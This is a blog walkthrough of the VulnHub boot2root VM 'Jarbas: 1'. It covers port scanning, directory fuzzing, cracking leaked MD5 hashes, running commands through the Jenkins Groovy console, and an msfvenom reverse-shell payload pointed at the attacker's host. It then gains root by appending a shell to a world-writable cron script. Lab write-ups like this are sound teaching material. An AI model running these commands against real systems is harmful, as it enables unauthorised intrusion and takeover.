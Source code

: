 ```yaml
---
layout: post
date: 2018-08-03 12:16:52 +0000
last_modified_at: 2018-08-03 19:36:46 +0000
title: "Jarbas: 1 Walkthrough"
subtitle: "Those Were the Days"
category: Walkthrough
tags: [VulnHub, "LazySysAdmin"]
comments: true
image:
  feature: jarbas-1-walkthrough.jpg
  credit: Free-Photos / Pixabay
  creditlink: https://pixabay.com/en/books-library-education-literature-768426/
---
```


This post documents the complete walkthrough of Jarbas: 1, a boot2root [VM][1] created by [Tiago Tavares][2], and hosted at [VulnHub][3]. If you are uncomfortable with spoilers, please stop reading now.
{: .notice}

<!--more-->

### Background

A tribute to a nostalgic Brazilian search engine in the end of 90’s. The aim is to get a `root` shell.

### Information

Let’s start with a `nmap` scan to establish the available services in the host.

```
# nmap -n -v -Pn -p- -A --reason -oN nmap.txt 192.168.10.130
...
PORT     STATE SERVICE REASON         VERSION
22/tcp   open  ssh     syn-ack ttl 64 OpenSSH 7.4 (protocol 2.0)
| ssh-hostkey:
|   2048 28:bc:49:3c:6c:43:29:57:3c:b8:85:9a:6d:3c:16:3f (RSA)
|   256 a0:1b:90:2c:da:79:eb:8f:3b:14:de:bb:3f:d2:e7:3f (ECDSA)
|_  256 57:72:08:54:b7:56:ff:c3:e6:16:6f:97:cf:ae:7f:76 (ED25519)
80/tcp   open  http    syn-ack ttl 64 Apache httpd 2.4.6 ((CentOS) PHP/5.4.16)
| http-methods:
|   Supported Methods: GET HEAD POST OPTIONS TRACE
|_  Potentially risky methods: TRACE
|_http-server-header: Apache/2.4.6 (CentOS) PHP/5.4.16
|_http-title: Jarbas - O Seu Mordomo Virtual!
3306/tcp open  mysql   syn-ack ttl 64 MariaDB (unauthorized)
8080/tcp open  http    syn-ack ttl 64 Jetty 9.4.z-SNAPSHOT
|_http-favicon: Unknown favicon MD5: 23E8C7BD78E8CD826C5A6073B15068B1
| http-robots.txt: 1 disallowed entry
|_/
|_http-server-header: Jetty(9.4.z-SNAPSHOT)
|_http-title: Site doesn't have a title (text/html;charset=utf-8).
```

`nmap` finds `22/tcp`, `80/tcp`, `3306/tcp`, and `8080/tcp` open. Nothing unusual here.

### Directory/File Enumeration

Let's use `wfuzz` to determine any directories or files of interest. I use the following options.

```
# export WORDLIST=/usr/share/wfuzz/wordlists/general
# wfuzz -w $WORDLIST/megabeast.txt -w $WORDLIST/extensions_common.txt --hc 404 -t 64 http://192.168.10.130/FUZZFUZ2Z
```

Here's the result of running the command.

```
********************************************************
* Wfuzz 2.2.11 - The Web Fuzzer                        *
********************************************************

Target: http://192.168.10.130/FUZZFUZ2Z
Total requests: 1272964

==================================================================
ID	Response   Lines      Word         Chars          Payload    
==================================================================

009671:  C=200     13 L	      28 W	    359 Ch	  "access - .html"
582568:  C=200   1006 L	    4983 W	  74409 Ch	  "icons - /"
600443:  C=200    403 L	    1784 W	  32808 Ch	  "index - .html"
```

Here's what `access.html` looks like.

![access.html](/assets/images/posts/jarbas-1-walkthrough/01cca602.png)

The usernames and password hashes is a clear invitation to perform offline password cracking.

### Jenkins

**John the Ripper** can crack the password hashes as follows.

```
# john --format=raw-md5 --show hashes.txt
tiago:italia99
trindade:marianna
eder:vipsu

3 password hashes cracked, 0 left
```

It turns out that **Jenkins** is running behind `8080/tcp` seen earlier in the `nmap` scan. Here's what it looks like.

![Jenkins](/assets/images/posts/jarbas-1-walkthrough/fd1eb8f9.png)

The credential (`eder:vipsu`) allows us to login in to **Jenkins**.

![Logged In](/assets/images/posts/jarbas-1-walkthrough/9e1fb477.png)

I soon discover that **Jenkins** allows the execution of Groovy scripts in **Script Console**.

![Script Console](/assets/images/posts/jarbas-1-walkthrough/7507d3e1.png)

### Groovy Script

According to [Wikipedia](https://en.wikipedia.org/wiki/Apache_Groovy),

> Apache Groovy is a Java-syntax-compatible object-oriented programming language for the Java platform. It is both a static and dynamic language with features similar to those of Python, Ruby, Perl, and Smalltalk. It can be used as both a programming language and a scripting language for the Java Platform, is compiled to Java virtual machine (JVM) bytecode, and interoperates seamlessly with other Java code and libraries.

The console is able to execute shell commands like so.

![id](/assets/images/posts/jarbas-1-walkthrough/407406c2.png)

The result above shows the output of running `id`. We are executing shell commands in the context of the `jenkins` account.

Let's see if we can execute `wget` to get ourselves a shell.

![wget](/assets/images/posts/jarbas-1-walkthrough/df946598.png)

Awesome. Now, we can transfer a reverse shell executable over. But, before we do that, we need to determine if we are dealing with a 32-bit or 64-bit OS.

![uname -a](/assets/images/posts/jarbas-1-walkthrough/c08a81a2.png)

Let's generate the reverse shell on our attacking machine:

```
# msfvenom -p linux/x64/shell_reverse_tcp LHOST=192.168.10.128 LPORT=4444 -f elf -o rev
```

We can now set up `SimpleHTTPServer` on our attacking and transfer it over with `wget` at the **Script Console**.

_On our attacking machine_

![wget](/assets/images/posts/jarbas-1-walkthrough/c842c9da.png)

_At the **Script Console**_

![wget](/assets/images/posts/jarbas-1-walkthrough/89ef4e95.png)

Remember to make the `/tmp/rev` executable with `chmod +x /tmp/rev`.

![ls](/assets/images/posts/jarbas-1-walkthrough/18f4e608.png)

We should be good to go. Let's run our `netcat` listener and execute `/tmp/rev` at the console.

![shell](/assets/images/posts/jarbas-1-walkthrough/40bd5800.png)

We have shell.

### Privilege Escalation

I had my hopes pinned on [CVE-2017-1000253](https://www.qualys.com/2017/09/26/linux-pie-cve-2017-1000253/cve-2017-1000253.txt) from the get-go.

![CentOS](/assets/images/posts/jarbas-1-walkthrough/0e4bacad.png)

The VM is running on CentOS 7 with a 3.10 kernel. The conditions are almost identical to CVE-2017-1000253.

Too bad the VM is one version shy of being vulnerable. I've no choice but to look for other ways to gain root access.

During the process of checking for world-writable files in the VM, I stumbled upon this.

```
$ find / -type f -perm /o+w -ls 2>/dev/null
...
844412    4 -rwxrwxrwx   1 root     root           50 Apr  1 14:00 /etc/script/CleaningScript.sh
```

![CleaningScript.sh](/assets/images/posts/jarbas-1-walkthrough/d9f3a650.png)

If I've to guess from its content, I'd say this is probably run under `root`'s `crontab`.

Let's append our reverse shell to the script.

![rev](/assets/images/posts/jarbas-1-walkthrough/4b94503e.png)

Boom. A `root` shell.

![root](/assets/images/posts/jarbas-1-walkthrough/d710bca7.png)

My guess was right.

![crontab](/assets/images/posts/jarbas-1-walkthrough/2198ba7e.png)

### Eyes on the Prize

Getting the flag is trivial.

![flag](/assets/images/posts/jarbas-1-walkthrough/bad0fdf5.png)

:dancer:

[1]: https://www.vulnhub.com/entry/jarbas-1,232/
[2]: https://twitter.com/@tiagotvrs
[3]: https://www.vulnhub.com/
